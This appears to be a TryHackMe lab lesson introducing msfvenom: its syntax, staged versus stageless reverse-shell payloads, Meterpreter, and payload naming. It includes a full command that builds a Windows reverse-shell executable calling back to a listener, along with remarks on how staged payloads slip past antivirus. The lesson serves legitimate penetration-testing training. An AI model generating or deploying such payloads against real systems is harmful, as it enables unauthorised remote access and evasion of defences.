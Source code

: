 # Msfvenom: The One-Stop-Shop for All Things Payload Related

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

## Standard Syntax

The standard syntax for msfvenom is as follows:

```
msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

Here we are using a payload and four options:

- `-f <format>`: Specifies the output format. In this case that is an executable (exe).
- `-o <file>`: The output location and filename for the generated payload.
- `LHOST=<IP>`: Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- `LPORT=<port>`: The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

## Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

### Staged Payloads

Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit `multi/handler`, which will be covered in the next task.

### Stageless Payloads

Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern-day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

## Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit.

## Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

```
<OS>/<arch>/<payload>
```

For example:

```
linux/x86/shell_reverse_tcp
```

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

```
windows/shell_reverse_tcp
```

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:

```
shell/reverse_tcp
```

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

```
windows/x64/meterpreter/reverse_tcp
```

A Linux 32bit stageless Meterpreter payload would look like this:

```
linux/x86/meterpreter_reverse_tcp
```

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

```
msfvenom --list payloads
```

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads. For example:

```
msfvenom --list payloads | grep meterpreter | grep linux | grep x86
```

This gives us a full set of Linux meterpreter payloads for 32bit targets.